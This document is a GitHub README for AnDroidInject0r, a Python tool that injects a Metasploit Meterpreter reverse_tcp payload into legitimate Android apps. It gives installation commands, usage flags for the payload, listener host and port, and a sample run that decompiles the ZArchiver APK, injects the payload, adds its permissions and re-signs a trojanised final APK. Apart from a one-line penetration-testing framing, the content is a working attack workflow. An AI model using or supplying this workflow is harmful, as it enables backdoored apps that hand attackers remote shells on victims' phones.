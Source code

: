 # AnDroidInject0r

AnDroidInject0r is a Python script to inject existing Android applications with a Meterpreter payload. It can be used during penetrating testing or security assessments.


[![asciicast](https://asciinema.org/a/ajlfaPCAmWbWT4Ie0GDmLshjy.png)](https://asciinema.org/a/ajlfaPCAmWbWT4Ie0GDmLshjy)

```
    [+] AUTOR:        Yasser Janah
    [+] GITHUB:       https://github.com/yasserjanah
    [+] TWITTER:      https://twitter.com/yasser_janah
    [+] FACEBOOK:     https://fb.com/yasser.janah
```
# Getting the code

Firstly get the code:
```
git clone https://github.com/yasserjanah/AnDroidInject0r.git
cd AnDroidInject0r/
chmod +x install_requirements.sh
./install_requirements.sh
```
# Usage

```
Usage: python2 AnDroidInject0r.py -p [PAYLOAD] --lhost=[LHOST] --lport=[PORT] --apkfile=[APKFILE]
    << Coded by : Yasser Janah >>
    << Facebook : https://facebook.com/yasser.janah >>
    << Twitter  : https://twitter.com/yasser_janah >>
    << Github   : https://github.com/yasserjanah/ >>
    -p  , --payload        a metasploit android payload (e.x android/meterpreter/reverse_tcp) (not required)
    -lh , --lhost          The listen address (not required)
    -lp , --lport          The listen port (default 4444)
    -ap , --apkfile        path of apkfile (required!!)
```

# Need just select the apkfile 
```
$ ./AnDroidInject0r.py --apkfile zarchiver0-8-3.apk

[*] payload not selected .. default 'android/meterpreter/reverse_tcp'
[*] LHOST not selected .. using '192.168.43.230'
[*] LPORT not selected .. using '4444'
[+] Generating payload:  Generated.
[+] Decompling payload:  Decompiled.
[+] Decompling 'zarchiver0-8-3.apk':  Decompiled.
[+] Copying payload files into 'zarchiver0-8-3.apk':  Done.
[*] Parsing AndroidManifest file
[*] Activity PATH : 'ru/zdevs/zarchiver'
[*] SMALI File    : 'ZArchiver.smali'
[+] Injecting payload into 'zarchiver0-8-3.apk':  Injected.
[+] Get Permissions from payload AndroidManifest file:  Done.
[+] Add Permissions into 'zarchiver0-8-3.apk' AndroidManifest file:  Permissions Added.
[+] Recompling 'zarchiver0-8-3.apk':  Recompiled.
[+] Signing 'zarchiver0-8-3.apk':  Signed.

[+] metasploit rc file : '/home/mcsc/Droid_Inject0r/droid_apk.rc'

[+] final apk : '/home/mcsc/Droid_Inject0r/zarchiver0-8-3-final.apk'

```
